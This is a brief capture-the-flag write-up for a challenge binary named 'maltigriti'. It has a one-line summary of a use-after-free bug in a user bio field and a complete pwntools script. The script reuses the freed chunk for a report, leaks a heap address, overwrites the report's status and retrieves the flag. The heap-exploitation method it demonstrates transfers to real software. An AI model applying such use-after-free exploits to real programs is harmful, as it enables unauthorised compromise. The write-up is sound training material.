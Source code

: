 [COMMUNITY SOLUTION](https://youtu.be/uap9G10a8UE?t=878)

TLDR; Use-After-Free in user->bio. Get the `user->bio` and a `report` to point to the same chunk and then modify the report/bio to be an accepted report.

```py
import pwn
import time
import warnings

warnings.filterwarnings(action='ignore', category=BytesWarning)

elf = pwn.ELF("./maltigriti")
pwn.context.binary = elf
pwn.context.log_level = "DEBUG"
pwn.context(terminal=['tmux', 'split-window', '-h'])

libc = elf.libc
p = elf.process()
# p = pwn.remote("localhost", "1024")

# 1. UAF
p.sendlineafter("menu> ", "0") # register user
p.sendlineafter("name> ", "SJP")
p.sendlineafter("password>", "SJP")
p.sendlineafter("bio>", "192") # size of report
p.sendlineafter("bio>", "hi")
p.sendlineafter("menu> ", "6") # logout

# 2. Create report (using same chunk as bio)
p.sendlineafter("menu> ", "2") # create report
p.sendlineafter("title> ", "title")
p.sendlineafter("report> ", "body")

# 3. Edit User Bio to modify report (leak user_addr first)
p.sendlineafter("menu> ", "1")
p.recvuntil("is: ")
user_leak = pwn.u64(p.recv(6).ljust(8, b"\x00"))
print(f"{hex(user_leak)=}")
p.sendlineafter("bio>", pwn.p64(user_leak) + pwn.p64(ord('A')) + pwn.p64(2000))

# 4. Print Flag
p.sendlineafter("menu>", "5")

p.interactive()
```
